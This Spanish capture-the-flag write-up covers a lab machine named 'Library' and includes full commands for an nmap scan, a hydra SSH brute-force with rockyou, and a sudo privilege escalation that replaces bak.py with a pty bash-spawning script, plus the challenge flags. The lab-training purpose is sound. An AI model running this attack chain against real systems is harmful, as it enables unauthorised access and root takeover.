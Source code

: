 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Acceso al sitio web](images/Pasted%20image%20202502221170416.png)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![[Pasted image 20250221170508.png]]

El único interesante puede ser el directorio de  `/images/`

![[Pasted image 20250221171240.png]]

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![[Pasted image 20250221171339.png]]

Que puede ser `meliodas`por como vemos en la página anterior.

![[Pasted image 20250221171459.png]]

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![[Pasted image 20250221171938.png]]

```
ssh meliodas@10.10.31.106
```

![[Pasted image 20250221172044.png]]

Obtenemos la flag de`user.txt`.

![[Pasted image 20250221172143.png]]

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![[Pasted image 20250221172307.png]]

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![[Pasted image 20250221172514.png]]

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![[Pasted image 20250221172815.png]]

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![[Pasted image 20250221172922.png]]

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![[Pasted image 20250221173014.png]]

```
e8c8c6c256c35515d1d344ee0488c617
```












